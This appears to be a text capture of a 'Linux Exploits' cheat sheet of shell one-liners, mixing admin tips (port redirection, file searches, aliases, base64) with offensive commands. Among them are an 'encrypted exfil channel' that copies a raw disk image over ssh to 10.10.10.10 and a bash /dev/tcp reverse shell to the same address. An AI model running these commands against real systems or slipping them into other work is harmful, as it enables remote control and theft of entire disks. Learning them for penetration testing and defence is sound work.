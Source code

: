 # Linux Exploits

Redirect IPv6 listening TCP port to
localhost IPv4.

IPV6ADDR=fc00:660:0:1::46
&& PORT=110 && socat
TCP-LISTEN:$PORT,reuseaddr,
fork TCP6:[$IPV6ADDR]:$PORT

Find Juicy Stuff in the File System

 find /PATH/TO/DIRECTORY
-name "FILE-FILTER" -type
f -exec grep -i "STRING"
{} \; -print 2>/dev/null

Find public ip

curl -4 icanhazip.com

Make output easier to read

alias ccat='pygmentize
-O bg=dark,style=colorful'

Encrypted Exfil channel

dd if=/dev/rdisk0s1s2
bs=65536 conv=noerror,sync
| ssh -C user@10.10.10.10
"cat >/tmp/image.dd"

Check service every second

while (true); do nc -vv
-z -w3 10.10.10.10 80 >
/dev/null && echo -e
"Service is up"; sleep 1;
done

Website Cloner

wget -r -nH $URL

Type “gah” after you forgot to use
sudo, and it’ll sudo your most recent
command.

alias gah='sudo $(history
-p \!\!)'

Create a reverse shell back to a
given IP address and port.

bash -i >&
/dev/tcp/10.10.10.10/8080
0>&1

Encode or decode base64
information.

echo 'Hello, World!' |
base64

echo
'SGVsbG8sIFdvcmxkIQo=' |
base64 -d